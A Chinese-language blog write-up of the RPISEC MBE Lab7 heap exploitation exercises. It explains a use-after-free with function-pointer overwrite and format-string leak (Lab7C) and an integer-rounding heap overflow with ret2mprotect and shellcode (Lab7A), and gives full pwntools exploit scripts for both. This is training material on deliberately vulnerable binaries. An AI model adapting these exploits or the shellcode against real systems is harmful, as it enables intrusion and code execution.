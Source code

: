 ```yaml
---
layout: post
title: "MBE Lab7 Heap Exploitation Write Up"
---
```


# 0x00 背景

此篇write up对应于MBE的[Lab7](https://github.com/RPISEC/MBE/tree/master/src/lab07)，针对的堆溢出的利用，但是关于堆上元数据的利用没有讲到和练习到，而且还需要查看相关的文章才能了解的更细致，这个放到以后需要时再补习吧。编译环境依旧是提着灯笼找舅舅-m32。

<!-- more -->

# 0x01 Lab7

## Lab7C

此题从menu提示中即可看出是Use After Free的利用，ppt中也提到过利用的关键是覆盖掉free后的结构对象，源码中data和number这两个结构体大小相同，其中都还有保存函数指针，很适合作为我们UAF的利用对象。

稍微阅读代码可以看出，在删除数字和字符串的过程中，只是调用了free函数，而并没有将保存结构体指针的数组对应清空，结构体内容也没有重置，所以free掉结构体后仍旧可以use其中的函数指针。例如，我在生成和删除一个数字后，再生成一个字符串，data结构体的内容就会和原来number的内容重叠，当我查看数字时即可泄露出data中保存的函数指针，即small_str或big_str的函数地址。

但此程序PIE编译默认开了ASLR，虽然通过small_str的地址可以推出代码段的地址，但是如何才能走向system的调用呢。百思不得其解后，上网查看了他人的解题方法居然是利用small_str和system函数间的固定偏移，感觉和实践尝试后并不可靠。但也有个猥琐的想法，看看在small_str周围的栈环境是否为libc相关的函数地址：
 
![][1]

有的话就好办了，覆盖函数指针为`printf@plt`的地址：

![][2]

借助字符串格式化漏洞的思路，泄露出该地址，计算相对偏移就可以得到system的地址了：

![][3]

利用代码如下：
```python
from pwn import *

context.log_level = 'debug'
p = process('./lab7C')
# make number
p.sendlineafter('Choice: ', '2')
p.sendline('1')
# delete number
p.sendlineafter('Choice: ', '4')
# make string
p.sendlineafter('Choice: ', '1')
# __libc_start_main+243
p.sendline('%35$p\n')
# UAF number 
p.sendlineafter('Choice: ', '6')
p.sendlineafter('print: ', '1')
small_str_addr = int(p.recvline(keepends=False).split(' ')[-1])
small_str_offset = 0x997
print_plt_offset = 0x650
print_plt_addr = small_str_addr-(small_str_offset-print_plt_offset)
# delete string
p.sendlineafter('Choice: ', '3')
# make number
p.sendlineafter('Choice: ', '2')
p.sendline(str(print_plt_addr))
# UAF string
p.sendlineafter('Choice: ', '5')
p.sendlineafter('print: ', '1')
start_main_addr = int(p.recvline(keepends=False), 16)-243
start_main_offset = 0x199e0
system_offset = 0x3fe70
system_addr = start_main_addr-(start_main_offset-system_offset)
# delete number
p.sendlineafter('Choice: ', '4')
# make string
p.sendlineafter('Choice: ', '1')
p.sendline('/bin/sh\x00')
# delete string
p.sendlineafter('Choice: ', '3')
# make number
p.sendlineafter('Choice: ', '2')
p.sendline(str(system_addr))
# UAF string
p.sendlineafter('Choice: ', '5')
p.sendlineafter('print: ', '1')
p.interactive()
```

覆盖函数指针多次利用UAF即可，因为在data结构体中可存放buffer，所以ret2libc就好：

![][4]

## Lab7A

此题静态编译加上栈保护，很明显还是要覆盖msg结构体中的函数指针。阅读源码后不难发现问题出在create_message中，因为C语言的整数除法会直接舍弃小数部分，所以就可能导致msg_len过大，当调用edit_message函数根据msg_len来更改message的时候，就会覆盖下个msg中的函数指针，造成堆溢出。

ppt中没有细讲堆上元数据的exploit利用，漏洞利用点就还是在函数指针上。但只覆盖了一个函数指针好像并没有什么用，再看代码后发现在print_index函数中用一个32字节的字符数组来接收一个index显得阴阳怪气，可以配合numbuf数组利用。

因为有栈保护，所以在溢出栈并进行ROP的可能性是比较小的。了解过一番CTF的套路后，还是可以通过mprotect函数，把堆上的数据添加执行权限，堆上的结构体也是我们可以控制填充shellcode的，这样函数指针转过去就达到代码执行的效果了。静态编译的文件中mprotect的函数还是有的：

![][5]

根据mprotect的参数，我们需要知道的是全局messages数组中保存的结构体的地址，要泄露地址首先想到的是覆盖函数指针为printf函数，然后利用格式化漏洞，向下可以读取numbuf中的内容，numbuf是可控的，里面填入messages的地址加上%s就可以泄露出堆上message的地址了。
有了该地址，我们再次布局numbuf为ret2mprotect，将函数指针覆盖为`add esp, 0x24; mov e ax, edx; pop ebx; pop esi; ret`刚好跳过去拉满32字节的numbuf。最后覆盖函数指针为堆上shellcode的地址就解决了，代码如下：

```python
from pwn import *

context.log_level = 'debug'
p = process('./lab7A')
# make message 0
p.sendlineafter('Choice: ', '1')
p.sendlineafter('length: ', '131')
p.sendafter('encrypt: ', 'A'*131)
# make message 1
p.sendlineafter('Choice: ', '1')
p.sendlineafter('length: ', '128')
p.sendafter('encrypt: ', 'A'*128)
# edit message 0 to printf
p.sendlineafter('Choice: ', '2')
p.sendlineafter('edit: ', '0')
message_padding = 'A'*(4*32+4+8)
printf_addr = p32(0x08050180)
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
format_arg = 'xixi%8$s'
p.sendafter('encrypt: ', message_padding+printf_addr+shellcode+format_arg)
# get message 1 addr
p.sendlineafter('Choice: ', '4')
print_index = '1\x00\x00\x00'
messages1_addr = p32(0x080edf60+4)
p.sendlineafter('print: ', print_index+messages1_addr)
message1_addr = u32(p.recvregex('xixi.{4}')[-4:])
# edit message 0 to ret 0x24
p.sendlineafter('Choice: ', '2')
p.sendlineafter('edit: ', '0')
message_padding = 'A'*(4*32+4+8)
pr_addr = p32(0x080b1ba2)
p.sendafter('encrypt: ', message_padding+pr_addr)
# ret2mprotect
# gdb.attach(p)
p.sendlineafter('Choice: ', '4')
print_index = '1\x00\x00\x00' + '\x00'*8
mprotect_addr = p32(0x0806f140)
origin_addr = p32(0x8049501)
mprotect_arg1 = p32((message1_addr/4096)*4096)
mprotect_arg2 = p32(4096)
mprotect_arg3 = p32(7)
p.sendlineafter('print: ', print_index+mprotect_addr+origin_addr+mprotect_arg1+mprotect_arg2+mprotect_arg3)
# edit message to ret2mprotect
p.sendlineafter('Choice: ', '2')
p.sendlineafter('edit: ', '0')
message_padding = 'A'*(4*32+4+8)
p.sendafter('encrypt: ', message_padding+p32(message1_addr+4))
# system
p.sendlineafter('Choice: ', '4')
#gdb.attach(p)
p.sendlineafter('print: ', '1')
p.interactive()
```

通过调试，有两个小细节要注意一下：
1.	在使用mprotect函数时起始地址要和page boundary 4k对齐才可以。
2.	一开始找的是`ret 0x24`企图ret2mprotect，不过这和`add esp xxx; ret`的效果刚好是相反的。

最终的exploit效果如下：

![][6]

# 0x02 总结

就像ppt中说的，在绕过ASLR的过程中也需要注意周围的栈环境，也许有个__libc_strat_main函数的地址就能一叶知秋了；在Lab7A的过程中，以为只能覆盖函数指针不能干些什么，还是没有注意到当前栈上的环境，add esp也是能够继续ret2everywhere的，时刻具有创造性才能解决问题。MBE的问题虽然解决了一大半，但还是有些同学领先于我，[MBE-Solutions](https://github.com/Corb3nik/MBE-Solutions)上面的代码规范很赏心悦目，[devel0pment.de](https://devel0pment.de/)上的解题过程比我还细致，都很值得参考。

[1]: https://wx2.sinaimg.cn/large/ee2fecafly1fpsyz1gkd3j20mw07jt9t.jpg
[2]: https://wx4.sinaimg.cn/large/ee2fecafly1fpsyz27e1rj20jz0433yy.jpg
[3]: https://wx2.sinaimg.cn/large/ee2fecafly1fpsyz3fh4xj20kz052mxz.jpg
[4]: https://wx2.sinaimg.cn/large/ee2fecafly1fpsyz4ba81j20k1072q3p.jpg
[5]: https://wx1.sinaimg.cn/large/ee2fecafly1fpsyz61fk7j20k004oq3l.jpg
[6]: https://wx3.sinaimg.cn/large/ee2fecafly1fpsyz75szej20xd094abb.jpg